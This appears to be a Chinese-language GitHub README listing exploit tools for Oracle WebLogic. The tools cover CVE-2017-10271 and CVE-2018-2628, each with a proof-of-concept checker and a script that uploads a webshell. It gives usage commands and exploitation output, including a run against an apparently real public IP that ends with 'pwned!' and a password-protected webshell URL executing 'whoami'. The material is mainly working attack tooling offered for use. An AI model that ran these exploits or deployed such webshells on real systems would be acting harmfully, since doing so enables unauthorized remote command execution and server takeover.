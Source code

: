 > [*]     作者邮箱  Bearcat@secfree.com
> [*] 使用方法:
> [*]  单个URL检测  java -jar WebLogic-Wls-wsat-XMLDecoder.jar -u http://www.xxx.com:7001
> [*]     批量检测  java -jar WebLogic-Wls-wsat-XMLDecoder.jar -f UrlfilePath
> ```
> EXP:
> ```
> zhzy@debian:$ java -jar cve-2017-10271_poc.jar -u http://59.110.214.109:7001
> 
> [11:33:37] [+] 漏洞存在 http://59.110.214.109:7001/wls-wsat/test.logs
> ```

## cve-2017-10271_webshell.jar Weblogic wls-wsat XMLDecoder反序列化漏洞利用脚本，上传Webshell
> VER:
> ```
> Oracle WebLogic Server10.3.6.0.0 版本
> Oracle WebLogic Server12.1.3.0.0 版本
> Oracle WebLogic Server12.2.1.1.0 版本
> Oracle WebLogic Server12.2.1.2.0 版本
> ```
> EXP:
> ```
> zhzy@debian:$ java -jar cve-2017-10271_webshell.jar -u http://59.110.214.109:7001
> 
> [*] Starting exploit...
> [*] Sending payloads...
> [*] Payloads sent...
> [*] Opening shell...
> [*] pwned! Go ahead...
> 
> [+] -u/bea_wls_internal/http://59.110.214.109:7001?password=secfree&command=whoami
> ```

## cve-2018-2628_poc.py Weblogic WLS Core Components 反序列化命令执行漏洞验证脚本[[使用]](https://freeerror.org/d/464)
> ```
> zhzy@debian:$ python cve-2018-2628_poc.py 
> +--------------------------------------------------------+
> + USE: python cve-2018-2628_poc.py <ip> <port>           +
> + VER: Oracle WebLogic Server 10.3.6.0                   +
> +      Oracle WebLogic Server 12.2.1.2                   +
> +      Oracle WebLogic Server 12.2.1.3                   +
> +      Oracle WebLogic Server 12.1.3.0                   +
> + EXP: python cve-2018-2628_poc.py 1.1.1.1 7001          +
> +--------------------------------------------------------+
> ```

## cve-2018-2628_webshell.py Weblogic WLS Core Components 命令执行漏洞上传Webshell脚本[[使用]](https://freeerror.org/d/464)
> USE:
> ```
> zhzy@debian:$ python cve-2018-2628_webshell.py 
> +---------------------------------------------------------------+
> + USE: python cve-2018-2628_webshell.py <ip> <port> <webshell>  +
> + VER: Oracle WebLogic Server 10.3.6.0                          +
> +      Oracle WebLogic Server 12.2.1.2                          +
> +      Oracle WebLogic Server 12.2.1.3                          +
> +      Oracle WebLogic Server 12.1.3.0                          +
> + EXP: python cve-2018-2628_webshell.py 1.1.1.1 7001 shell1.jsp +
> +---------------------------------------------------------------+
> ```